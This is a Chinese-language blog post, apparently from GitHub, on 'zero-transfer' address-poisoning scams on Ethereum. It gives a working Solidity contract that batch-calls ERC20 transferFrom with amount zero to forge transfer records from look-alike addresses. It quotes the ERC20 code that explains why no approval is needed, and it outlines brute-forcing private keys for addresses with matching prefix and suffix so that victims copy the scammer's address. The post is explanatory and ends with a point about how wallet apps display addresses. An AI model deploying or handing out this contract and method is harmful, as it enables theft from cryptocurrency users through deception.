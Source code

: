 # 写一个 0 转账攻击合约

## 备注

时间：2024 年 7 月 7 日

作者：[33357](https://github.com/33357)

## 正文

以太坊上有大量转账 Token 数量为 0 的合约，比如这个 https://etherscan.io/address/0x6c5319df4fcca5961d71e117287c76a1f2aad593 。这些合约伪造了首尾相同的地址向用户地址转账，利用了有些人会在转账之前复制上一个地址的习惯来骗取用户资产。这里我会写一个类似功能的合约。

## 合约代码

```javascript
//SPDX-License-Identifier: Unlicense
pragma solidity ^0.8.25;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";

contract ZeroTransferAttack {
    function bacthTransferFrom(
        address[] memory tokenList,
        address[] memory fromList,
        address[] memory toList
    ) external {
        for (uint256 i; i < tokenList.length; i++) {
            IERC20(tokenList[i]).transferFrom(fromList[i], toList[i], 0);
        }
    }
}
```

很多人会奇怪，没有经过 `approve` 也能调用 `transferFrom` 吗？

由于 `ERC20` 合约的 `transferFrom` 方法接受数量为 `0` 的调用，而没有授权的状态就是 `0`。因此没有经过 `approve` 授权也可以调用 `transferFrom` 生成转账记录，这大大降低了进行数量为 0 转账的操作成本。

```javascript
function transferFrom(
    address sender,
    address recipient,
    uint256 amount
) public virtual override returns (bool) {
    _transfer(sender, recipient, amount);

    uint256 currentAllowance = _allowances[sender][_msgSender()];
    require(
      currentAllowance >= amount,
      "ERC20: transfer amount exceeds allowance"
    );
    _approve(sender, _msgSender(), currentAllowance - amount);

    return true;
}
```

## 攻击分析

做数量为 0 转账攻击的门槛其实不在于合约，而是对链上交易数据的爬取和计算首尾相同地址私钥。这需要完整的链上数据收集和分析，并配上有强大的 hash 计算能力。

当一个地址发起一笔转账后可以跟踪并迅速计算出首尾相同地址的私钥，调用 `transferFrom` 生成一笔发起人首尾地址相同、目标地址一样、转账时间相近的记录。如果用惯了传统的金融 APP，对复制上一个交易没有警惕性，就很容易会上这种当。

## 总结

很多 APP 为了方便用户简化了地址显示，一定程度上也给了骗子可趁之机。市场也许需要一个既方便用户，又具有唯一性的地址显示方式。